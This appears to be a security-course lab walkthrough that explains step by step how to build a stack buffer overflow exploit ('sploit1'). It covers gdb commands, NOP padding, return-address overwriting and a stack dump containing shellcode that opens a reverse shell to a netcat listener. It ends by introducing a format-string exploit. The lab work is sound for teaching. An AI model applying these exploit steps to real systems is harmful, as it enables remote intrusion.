 Call `make` and `make pipes` before running `./runtarget 1 2452` to prepare target 1 for sploit1.  In another terminal also run `nc -l -p 6666` to await our hack to work.

To attach gdb to your program you run `gdb -p pid` where the pid is the number you find after running `ps` in your shell and finding the run-target proccess id.  Now we want to set a breakpoint at the overflow function using `b overflow`. Now we can run `./sploit1` and hit continue in gdb with `c`.  


Gdb will reach the overflow function where cmdbuf is being copied over into buf.  Lets try and find the address for cmdbuf (that we will feed to the stackpointer so we ret into cmdbuf) using the gdb command `x/x cmdbuf`.  We will find that the address of cmdbuf is 0xbba72000. 
```
(gdb) x/x cmdbuf
0xbba72000:     0x31c03190
```

If you look at sploit1 we actually feed 0xbba72001 into the overflow string because 0x00 will cause our string to terminate early.  Since we are starting at 01 now instead of 00 we will fill in a 0x90 val in our string before our shellcode to make the shellcode now start at 0xbba72001.  


After we copy in our shellcode to the string in sploit1 we need to know how long to make the rest of the string so that we properly overflow the buffer and get the stack pointer $esp to point at our return address before it returns out of the overflow function.  We can use gdb to step from where we left off with `step` until we reach line 13 or right before the overflow function ends and returns.  You can use `disas` and `stepi` to traverse the assembly instructions until you get to the exact ret instruction.


We will fill in some dummy values in our string (like nops value 0x90) and do a test run with gdb.  Now we look at $esp right before the ret instruction using `x/18x $esp - 68` to look at the 18 4-byte addresses before and including the address $esp is looking at.  We get the below output
```
(gdb) x/18x $esp -68
0xbfbf925c:     0x2f2f6851      0x2f686873      0x896e6962      0x535451e3
0xbfbf926c:     0xcd3bb050      0x90909080      0x90909090      0x90909090
0xbfbf927c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfbf928c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfbf929c:     0x90909090      0xbba72001
(gdb) x/x $esp
0xbfbf92a0:     0xbba72001
```
This output is from my already working sploit1, but we can see the amount of padding we will need in our string in order to overflow into the address that $esp will be looking at before the return call.  If you look at the rest of my sploit1, I add the right number of 0x90 and then add the address of cmdbuf we want to jump to.  We know we got it right because we see the 0xbba72001 address when we type `x/x $esp` before we hit return.  If we run run-target and sploit1 again without gdb and check our netcat connection in the other terminal, we can now use ls and other terminal commands on our victim machine.  Our shellcode basically made our victim connect to port 6666 and give us access.

## Sploit2

Read this paper on [Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf) to better understand this exploit.

Sploit2 is a lot harder than sploit1 because our target is not using strcpy() but rather snprintf.  This makes it so we cannot overflow by just feeding the target a long string because snprintf will cut off our string if it goes over the size of buf.  Luckily there is another way to manipulate the stack using format strings.
